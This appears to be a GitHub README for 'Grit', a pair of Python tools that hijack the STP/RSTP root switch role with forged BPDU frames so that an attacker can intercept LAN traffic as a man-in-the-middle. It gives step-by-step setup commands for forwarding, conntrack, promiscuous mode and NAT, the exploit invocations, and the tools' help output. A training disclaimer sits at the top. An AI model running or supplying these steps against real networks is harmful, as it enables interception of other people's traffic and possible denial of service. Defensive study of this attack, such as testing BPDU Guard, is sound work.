 # Grit
STP &amp; RSTP Root Hijacking Exploits

**The author has nothing to do with those who will use these tools for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

**ᛝ**

## 1. Mechanics of the attack.

The basic principle of the tools is to generate an STP/RSTP frame with the lowest priority value. Which in turn allows you to intercept the role of the root switch.
After that, an opportunity will open for a MITM attack, you will partially intercept traffic, not all of it. Keep that in mind.
But don't forget that the BPDU GUARD system can stop you.

## 2. Limitations

Depending on the power of your hardware. some host traffic will go through you, you have to withstand this load, otherwise DoS will occur.

## 3. Attack
First you need to install the dependencies.

```
sudo pip3 install -r requirements.txt
```

### 3.1 Enable Forwarding

```
sudo sysctl -w net.ipv4.ip_forward
```
### 3.2 Enable Conntrack (nf_conntrack_helper)
```
sudo modprobe nf_conntrack
sudo echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
### 3.3 Promisc mode on interface
```
sudo ifconfig ethX promisc
```
### 3.4 NAT
```
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUEADE
```

### 3.5 Start of injection.
#### 3.5.1 STP
```
sudo python3 stpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX **(XX:XX:XX:XX:XX:XX - your MAC...)**
```
#### 3.5.2 RSTP
```
python3 rstpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX **(XX:XX:XX:XX:XX:XX - your MAC...)**
```
After executing the injection, you will intercept the role of the root switch. you can track generated STP ads in Wireshark or tcpdump :)



## 4. Help

```
python3 stpexploit.py  --help     

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

STP Root Hijacking Exploit
For the classic version of Spanning Tree Protocol

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: stpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Choose the interface to attack
  --mac EVILMAC         Specify your MAC
```

```
python3 rstpexploit.py --help                                                                                                                          2 ↵

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

RSTP Root Hijacking Exploit
For Rapid Spanning Tree Protocol version

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: rstpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
  --mac EVILMAC
```
